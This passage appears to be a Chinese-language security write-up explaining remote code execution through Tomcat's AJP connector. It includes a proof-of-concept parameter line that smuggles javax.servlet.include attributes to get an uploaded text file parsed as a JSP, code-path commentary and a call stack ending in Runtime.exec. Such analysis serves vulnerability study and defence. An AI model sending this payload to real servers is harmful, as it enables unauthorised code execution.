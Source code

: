 **RCE**


```bash
Copy to clipboard"HTTP/1.1" "/1.jsp" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:1.txt","javax.servlet.include.servlet_path:/upload/"
```

org/apache/jasper/servlet/JspServlet#service负责处理xxx.jsp访问逻辑，跟进来 jspUri 是通过 servlet_path 和 path_info 拼接而来的。

![](images/15893725699344.png)


之后便会进入 serviceJspFile 逻辑进行处理。

![](images/15893725756432.png)


跟进 serviceJspFile 方法，首先先通过 getResource 获取上传文件的内容，然后再通过初始化 wrapper 对象传入相关参数，然后再调用 JspServletWrapper#service 进行解析。

![](images/15893725826059.png)


这简单解释一下，RCE 的核心需要进入的 JspServlet ，我们平常访问 xxx.jsp 是进入到 Jspservlet ，poc中访问/1.jsp通过 AJP 发包的过程中实际上就是我们的Get请求访问www.xxx.com/1.jsp，所以这里自然进入了 JspServlet 当中，然后再配合 getResource 获取上传的文件内容，调用 Jsp 引擎进行解析，自然达到了RCE的效果。

最后附上RCE的调用栈


```bash
Copy to clipboardexec:347, Runtime (java.lang)
_jspService:1, _1_txt (org.apache.jsp)
service:70, HttpJspBase (org.apache.jasper.runtime)
service:741, HttpServlet (javax.servlet.http)
service:476, JspServletWrapper (org.apache.jasper.servlet)
serviceJspFile:386, JspServlet (org.apache.jasper.servlet)
service:330, JspServlet (org.apache.jasper.servlet)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```
